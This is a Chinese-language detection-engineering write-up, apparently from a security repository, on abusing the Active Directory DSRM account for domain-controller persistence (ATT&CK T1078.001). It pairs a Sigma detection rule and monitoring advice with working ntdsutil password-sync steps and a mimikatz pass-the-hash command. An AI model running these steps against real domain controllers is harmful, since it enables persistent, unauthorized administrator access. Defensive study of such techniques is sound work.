 # T1078-001-Win-DSRM密码重置

## 来自ATT&CK的描述

攻击者可能会使用凭据访问技术窃取特定用户或服务账号的凭据，或者在早起的侦察过程通过社会工程捕获凭据以获得首次访问权限。

攻击者可以使用三种账号：默认账号、本地账号和域账号。默认账号是操作系统的内置账号，例如Windows系统上的访客或管理员账号，或者其他类型系统、软件或设备上的默认提供商账号。本地账号是组织配置给用户、远程支持或服务的账号，或单个系统/服务的管理账号。域账号是AD-DS（活动目录域服务）管理的账号，其访问和权限在域内不同系统和服务之间配置。域账号可以涵盖用户、管理员和服务。

## 测试案例

目录还原模式账户

每一个域控制器都有一个本地管理员账户其实也就是所谓的目录服务还原模式（DSRM）账户。DSRM的密码是在DC安装的时候就需要设置，并且很少会被重置。修改DSRM密码最基本的方法是在DC上运行ntdsutil命令行工具。

在安装了KB961320补丁的Windows Server 2008以及之后发布的Windows Server中，开始支持在DC上使用指定的域帐户同步DSRM密码。但是这个同步操作是一次性的，也就是说你必须在每次更改了DSRM密码后进行一次密码同步。

如果一个攻击者可以得到运行在Windows Server 2008 R2或 Windows Server 2012 R2（DsrmAdminLogonBehavior的值为2）的域控的DSRM账户密码或者HASH值，那么DSRM账户就可以被用于“HASH传递攻击”方式。这就使得攻击者可以保持域控制器的管理员权限，即使所有的域用户和计算机密码被修改了。

## 检测日志

Windows 安全日志

## 测试复现

### 0x00 更改DSRM账号密码

执行以下命令(DC上)

```dos
NTDSUTIL
set dsrm password
reset password on server null
<PASSWORD>
Q
Q
```

实际测试结果：

```dos
C:\Users\Administrator>ntdsutil
ntdsutil: set dsrm password
重置 DSRM 管理员密码: reset password on server null
请键入 DS 还原模式 Administrator 帐户的密码: *********
请确认新密码: *********
密码设置成功。

重置 DSRM 管理员密码: Q
ntdsutil: Q
```

### 0x01 使用域帐户同步DSRM账户密码

使用域管理员帐户登录DC后，启动一个“取得管理员权限”的CMD，运行如下命令行：

```dos
NTDSUTIL
SET DSRM PASSWORD
SYNC FROM DOMAIN ACCOUNT <your user here>
Q
Q
```

### 0x02 使用DSRM作为活动目录的后门

有关DSRM密码的一个有意思的事情是这个DSRM账户实际上就是“Administrator”。这就意味着一旦攻击者有了DC的DSRM密码，就有可能使用这个账户通过网络作为一个本地管理员登录到DC上。

我们可以使用法国佬神器（mimikatz）来确认DSRM账号就是本地管理员帐户。首先，使用一个已知的密码创建一个AD用户（xiaomi），之后，使用这个域账户进行DSRM密码同步操作。

具体操作命令可以参考0x01命令

关于更多使用DSRM作为活动目录后门的用法可以参考Freebuf文中提到方法。

### 0x03 使用DSRM凭证的一种更为高级的方法

正如0x02所述，DSRM账户实际上是一个可用的本地管理员账户，并且可以通过网络验证并登录到DC中，当然，**要确保DsrmAdminLogonBehavior注册表键的值为 2**。另外，攻击者并不需要知道DSRM账户的真实密码，只需要知道这个账户的HASH值。这就意味着一旦攻击者有了DSRM账户的HASH值，就可以通过网络使用“HASH传递攻击”方式，并以一个管理员的身份访问DC。这个方法在Windows Server 2008 R2和Windows Server 2012 R2的域控中已经测试成功了。

使用法国佬神器（mimikatz）执行如下命令行：

```dos
Mimikatz “privilege::debug” “sekurlsa::pth /domain:xiaomi.org /user:administrator /ntlm:7c08d63a2f48f045971bc2236ed3f3ac” exit
```

注意的是：由于DSRM账户实际上是一个可用的本地管理员账户administrator，所以在此处，可以这么理解，攻击者知道DC本地账户administrator的NTML HASH，使用mimikatz进行HASH传递进行攻击，达到以DC本地账户administrator的密码进行登录访问DC。

## 测试留痕

windows 安全日志4794

## 检测规则/思路

### Sigma规则

```yml
title: 目录服务还原模式（DSRM）帐户上的密码更改
status: 稳定
description: 目录服务还原模式（DSRM）帐户是域控制器上的本地管理员帐户。攻击者可以更改密码以获得持久性。
references:
    - https://adsecurity.org/?p=1714
tags:
    - attack.persistence
    - attack.privilege_escalation
    - attack.t1098
logsource:
    product: windows
    service: security
detection:
    selection:
        EventID: 4794 #试图设置目录服务还原模式管理员密码
    condition: selection
falsepositives:
    - Initial installation of a domain controller
level: high
```

### 建议

1.监控与DSRM密码重置和使用相关的事件日志

  4794：试图设置目录服务还原模式管理员密码。

2.监控如下注册表位置的值，当值为 1 或 2时，应引起警示

```reg
HKLM\System\CurrentControlSet\Control\Lsa\DSRMAdminLogonBehavior
```

## 参考推荐

MITRE-ATT&CK-T1078-001

<https://attack.mitre.org/techniques/T1078/001/>

域控权限持久化之DSRM

<https://www.freebuf.com/articles/system/80968.html>

巧用DSRM密码同步将域控权限持久化

<https://www.uedbox.com/post/10269/>
